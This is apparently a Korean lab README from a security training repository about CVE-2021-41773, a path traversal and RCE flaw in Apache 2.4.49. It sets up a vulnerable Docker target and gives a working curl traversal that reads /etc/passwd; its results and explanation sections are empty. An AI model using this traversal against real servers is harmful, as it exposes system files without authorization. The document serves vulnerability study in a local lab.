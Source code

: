 # CVE-2021-41773 [Apache HTTP Server Path Traversal & RCE]

> 화이트햇 스쿨 3기 - [이준영 (@ljyoung04)](https://github.com/ljyoung04)

<br/>

## 요약

- Apache HTTP Server 2.4.49 버전의 경로 정규화 변경 사항에서 결함이 발견되었습니다.
- 이 결함을 사용하여 Path Traversal 공격을 수행하여 Alias와 유사한 지시문으로 구성된 디렉터리 외부의 파일에 접근할 수 있습니다.
- 또한 CGI 스크립트 실행이 활성화되어 있다면 RCE가 가능할 수도 있습니다.
- 실제로 악용된 사례가 있으며 오직 Apache 2.4.49 버전에만 해당됩니다.
- 이 취약점에 대한 수정이 이루어졌지만, 수정이 불완전하여 CVE-2021-42013으로 이어졌습니다.

<br/>

## 환경 구성 및 실행

다음 명령어를 입력하여 취약한 도커 환경을 구축할 수 있다.

```
$ sudo docker compose up -d
```

```
$curl localhost:8080
<meta charset="UTF-8" />
<h1>WHS 3기 이준영</h1>
<h2>CVE-2021-41773 TEST</h2>
$
```

아래와 같이 입력하여 Path Traversal 공격을 수행할 수 있다.

```
curl --path-as-is -v http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

<img src="https://github.com/ljyoung04/kr-vulhub/blob/main/Apache/CVE-2021-41773/image.png">
<br/>

## 결과

<br/>

## 설명
